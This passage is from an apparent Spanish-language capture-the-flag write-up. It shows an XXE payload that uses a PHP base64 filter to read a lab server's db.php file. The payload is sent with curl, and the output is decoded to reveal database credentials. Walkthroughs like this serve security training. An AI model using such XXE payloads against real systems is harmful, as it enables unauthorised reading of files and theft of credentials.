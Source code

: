 ```
</table>
```

Tras no lograr que muestre el contenido del archivo, decido a probar con un wrapper de PHP que codifica el contenido de un fichero en Base64, pudiendo así ver su contenido tras descodificarlo.

```
# cat xxe.xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
        <bugreport>
                <title>Proof</title>
                <cwe>&xxe;</cwe>
                <cvss>9.4</cvss>
                <reward>30</reward>
        </bugreport>

# cat xxe.xml | base64 -w 0; echo

PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1kYi5waHAiPiBdPgogICAgICAgIDxidWdyZXBvcnQ+CiAgICAgICAgICAgICAgICA8dGl0bGU+UHJvb2Y8L3RpdGxlPgogICAgICAgICAgICAgICAgPGN3ZT4meHhlOzwvY3dlPgogICAgICAgICAgICAgICAgPGN2c3M+OS40PC9jdnNzPgogICAgICAgICAgICAgICAgPHJld2FyZD4zMDwvcmV3YXJkPgogICAgICAgIDwvYnVncmVwb3J0Pgo=

# curl -s --data-urlencode "data=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI/Pgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1kYi5waHAiPiBdPgogICAgICAgIDxidWdyZXBvcnQ+CiAgICAgICAgICAgICAgICA8dGl0bGU+UHJvb2Y8L3RpdGxlPgogICAgICAgICAgICAgICAgPGN3ZT4meHhlOzwvY3dlPgogICAgICAgICAgICAgICAgPGN2c3M+OS40PC9jdnNzPgogICAgICAgICAgICAgICAgPHJld2FyZD4zMDwvcmV3YXJkPgogICAgICAgIDwvYnVncmVwb3J0Pgo=" http://10.10.11.100/tracker_diRbPr00f314.php

If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>Proof</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R
1c2VyID0gInRlc3QiOwo/Pgo=</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>9.4</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>30</td>
  </tr>
</table>

# echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
```